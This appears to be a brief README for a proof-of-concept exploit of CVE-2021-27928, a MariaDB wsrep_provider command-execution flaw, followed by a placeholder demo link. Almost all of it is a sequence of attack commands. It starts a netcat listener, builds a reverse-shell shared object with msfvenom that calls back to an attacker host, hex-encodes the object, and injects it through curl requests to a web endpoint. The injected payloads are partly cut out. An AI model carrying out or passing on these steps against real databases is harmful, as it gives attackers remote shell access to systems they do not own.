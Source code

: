 # CVE-2021-27928 MariaDB 10.2 wsrep_provider OS Command Execution

```shell
$ nc -lvnp 4444
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o cve.so
$ python3 -c 'print(open("cve.so", "rb").read().hex())'
$ curl "https://localhost:8443/api/v1/resource/image-unsafe?s=abc...CUT...cve.so%27%3B%20%23"
$ curl "https://localhost:8443/api/v1/resource/image-unsafe?s=abc%...CUT...3B%20%23%20"
```

# Demo

Video demo [qui](https://videolink)
